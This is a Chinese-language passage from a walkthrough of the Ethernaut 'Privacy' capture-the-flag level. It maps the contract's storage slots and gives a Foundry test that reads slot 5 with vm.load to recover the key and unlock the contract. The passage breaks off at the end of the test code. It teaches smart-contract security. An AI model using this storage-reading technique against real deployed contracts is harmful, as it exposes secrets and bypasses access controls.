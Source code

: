 由于没有继承，存储从 slot 0 开始，带有 `locked` 变量，如下所示：

| Slot | Variable | Type | Size | Notes |
|------|----------|------|------|-------|
| 0 | `locked` | `bool` | 1 byte | `locked` 占用1个字节，但由于下一个值不适合剩下的31个字节，`locked` 占用了整个插槽 |
| 1 | `ID` | `uint256` | 32 bytes | `uint256` 占用32字节，所以是1个满槽 |
| 2 | `flattening`<br/>`denomination`<br/>`awkwardness` | `uint8`<br/>`uint8`<br/>`uint16` | 1+1+2 bytes | 分别是1个字节+1个字节+2个字节，Solidity将它们打包到一个插槽中 |
| 3 | `data[0]` | `bytes32` | 32 bytes | 静态数组启动一个新的存储槽，每个 `bytes32` 元素占用一个完整的槽 |
| 4 | `data[1]` | `bytes32` | 32 bytes | |
| 5 | `data[2]` | `bytes32` | 32 bytes | **这个槽位就是 `data[2]`** |

通过这个详细的存储布局，我们可以看到 `data[2]` 存储在 slot 5 中。

## 💻 Foundry 实现

### 攻击合约代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Ethernaut.sol";
import "../src/levels/PrivacyFactory.sol";

contract PrivacyTest is Test {
    Ethernaut ethernaut;
    PrivacyFactory privacyFactory;
    
    function setUp() public {
        ethernaut = new Ethernaut();
        privacyFactory = new PrivacyFactory();
        ethernaut.registerLevel(privacyFactory);
    }
    
    function testPrivacyExploit() public {
        // 创建关卡实例
        address levelInstance = ethernaut.createLevelInstance(privacyFactory);
        Privacy instance = Privacy(levelInstance);
        
        // 验证初始状态
        assertEq(instance.locked(), true);
        
        // 攻击：读取 slot 5 中的 data[2]
        bytes32 data2 = vm.load(address(instance), bytes32(uint256(5)));
        
        // 转换为 bytes16 并解锁
        bytes16 key = bytes16(data2);
        instance.unlock(key);
        
        // 验证攻击成功
        assertEq(instance.locked(), false);
        
        // 提交关卡
        bool levelSuccessfullyPassed = ethernaut.submitLevelInstance(
            payable(levelInstance)
        );
        assert(levelSuccessfullyPassed);
    }
    
```
